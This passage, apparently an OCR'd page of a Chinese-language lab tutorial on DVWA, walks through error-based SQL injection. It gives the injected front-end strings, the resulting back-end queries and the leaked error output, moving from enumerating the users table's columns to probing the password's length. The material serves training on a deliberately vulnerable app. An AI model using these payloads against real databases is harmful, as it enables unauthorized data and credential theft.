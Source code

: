 ```
          WHERE TABLE_SCHEMA = 'dvwa'
          LIMIT 1,1
        )
    )
);

// XPATH syntax error: '~users'

求字段：
先求出字段的数量
前端：
1' and extractvalue(1,concat(0x7e,(select count(COLUMN_NAME) from information_schema.COLUMNS where TABLE_NAME = 'users'))) #

后端：
SELECT first_name,last_name
FROM users
WHERE user_id = 1
AND extractvalue(
    1,
    concat(
        0x7e,
        (
          SELECT count(COLUMN_NAME)
          FROM information_schema.COLUMNS
          WHERE TABLE_NAME = 'users'
        )
    )
);

// XPATH syntax error: '~8'

根据列数查询列名
前端：
1' and extractvalue(1,concat(0x7e,(select COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME = 'users' limit 0,1))) #

后端：
SELECT first_name,last_name
FROM users
WHERE user_id = 1
AND extractvalue(
    1,
    concat(
        0x7e,
        (
          SELECT COLUMN_NAME
          FROM information_schema.COLUMNS
          WHERE TABLE_NAME = 'users'
          LIMIT 0,1
        )
    )
);

// XPATH syntax error: '~user_id'

根据列名查找实际数据
前端：
1' and extractvalue(1,concat(0x7e,(select length(password) from users where user_id = 1))) #

后端：
因为报错注入有字符长度限制，因此优先查询目标数据的字符长度
SELECT first_name,last_name
```